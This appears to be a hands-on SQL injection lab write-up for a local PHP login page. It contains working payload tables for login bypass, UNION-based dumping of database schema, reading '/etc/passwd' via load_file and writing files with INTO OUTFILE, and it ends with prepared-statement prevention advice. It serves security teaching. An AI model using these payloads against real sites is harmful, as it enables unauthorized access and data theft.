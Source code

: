 # SQL Injection (SQLi) Lab – Exploiting and Bypassing Insecure Queries

## Objective  
Learn how to exploit SQL injection (SQLi) in a vulnerable web application to bypass authentication, extract data, and write output to a file. Understand how unsanitized inputs lead to full database compromise.

---

## Tools Used  
- Apache Web Server  
- PHP login form (`index.php`)  
- Firefox (localhost)  
- Terminal (vi editor, gedit)  
- Kali Linux / VMware

---

## Lab Setup & Navigation

```bash
cd /var/www
ls
cd sqlinjection/
ls
sudo vi index.php
```

Start/restart web server:
```bash
sudo service apache2 start
sudo service apache2 restart
```

Open the site in browser:
```
http://localhost/sqlinjection/index.php
```

---

## Vulnerable SQL Code (Inside `index.php`)
```php
$sql = "SELECT * FROM students WHERE uid = $_GET['uid']";
```

- This is vulnerable: directly inserting unsanitized user input.

If user inputs:
```
2019 OR 1=1
```
The query becomes:
```sql
SELECT * FROM students WHERE uid = 2019 OR 1=1;
```
- Returns all students (authentication bypassed).

---

## Manual SQL Injection Payloads

| Input                    | Purpose                        |
|-------------------------|--------------------------------|
| 2019 OR 1=1             | Return all rows (true query)   |
| `' OR '1'='1`           | Classic auth bypass            |
| `' OR 1=1 --`           | Bypass and comment rest        |
| `' OR '1'='1' --`       | Bypass with double quotes      |

---

## Login Bypass Scenarios

**If username is known but password is not:**  
- Input this in **Password** field:  
  ```
  ' OR '1'='1
  ```

**If neither username nor password is known:**  
- Input this in **Username** field:
  ```
  ' OR '1'='1'#
  ```

- This logs you in as the first user in the database.

---

## Writing Output to File (Advanced SQLi)

**Payload:**
```sql
' or '1'='1' into outfile '/tmp/sql.txt'#
```

Use in browser:
```
http://localhost/sqlinjection/index.php?uid=' or '1'='1' into outfile '/tmp/sql.txt'#
```

Check output:
```bash
cat /tmp/sql.txt
ls /tmp/
sudo gedit /tmp/sql.txt
```

⚠- Works only if MySQL has **FILE** privilege and permission to write to `/tmp`.

---

## Useful SQLi Payloads

| Payload                                                     | Purpose                           |
|-------------------------------------------------------------|-----------------------------------|
| `' OR 'a'='a`                                               | Always true                       |
| `' UNION SELECT null, version() --`                        | Show database version             |
| `' UNION SELECT null, user() --`                           | Show DB user                      |
| `' UNION SELECT table_name, null FROM information_schema.tables --` | Dump all table names     |
| `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --` | Dump column names   |
| `' AND 1=0 UNION SELECT null, load_file('/etc/passwd') --` | Attempt to read system file       |
| `' OR 1=1 LIMIT 1 OFFSET 1 --`                              | Pagination for second user        |

---

## Secure Coding – Prevention

### Use **prepared statements**:
```php
$stmt = $pdo->prepare("SELECT * FROM students WHERE uid = :uid");
$stmt->bindParam(':uid', $_GET['uid']);
$stmt->execute();
```

### Additional protection:
- Validate and sanitize input  
- Escape special characters  
- Disable error details on production  
- Use least-privileged database accounts

## Outcome 
![Image](https://github.com/user-attachments/assets/27b58cb4-53d5-4342-9d8b-2b159523ab04)

